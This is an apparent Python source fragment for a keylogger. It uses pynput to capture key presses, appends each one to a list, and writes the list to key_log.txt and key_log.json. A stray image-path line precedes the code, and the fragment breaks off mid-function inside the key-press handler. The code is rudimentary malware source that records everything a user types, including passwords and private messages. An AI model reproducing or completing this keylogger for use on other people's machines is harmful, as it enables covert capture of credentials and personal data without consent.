

import tkinter as tk
from tkinter import *
from pynput import keyboard
import json

keys_used = []
flag = False
keys = ""

def generate_text_log(key):
    with open('key_log.txt', "w+") as keys:
        keys.write(key)

def generate_json_file(keys_used):
    with open('key_log.json', '+wb') as key_log:
        key_list_bytes = json.dumps(keys_used).encode()
        key_log.write(key_list_bytes)

def on_press(key):
    global flag, keys_used, keys
    if flag == False:
        keys_used.append(
            {'Pressed': f'{key}'}